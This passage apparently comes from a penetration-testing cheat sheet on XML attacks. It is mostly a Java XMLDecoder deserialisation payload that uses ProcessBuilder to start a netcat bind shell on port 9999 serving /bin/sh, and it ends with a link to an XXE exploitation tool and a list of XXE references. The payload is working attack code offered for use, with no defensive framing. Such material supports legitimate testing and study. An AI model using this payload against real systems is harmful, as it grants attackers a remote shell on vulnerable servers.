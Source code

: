 ### ProcessBuilder

```markup
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

## Tools

{% embed url="https://github.com/luisfontes19/xxexploiter" caption="" %}

## More resources

[https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)  
[https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)  
Extract info via HTTP using own external DTD: [https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/](https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/)  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection)  
[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)  
[https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)  
[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)  
[https://gosecure.github.io/xxe-workshop/\#7](https://gosecure.github.io/xxe-workshop/#7)

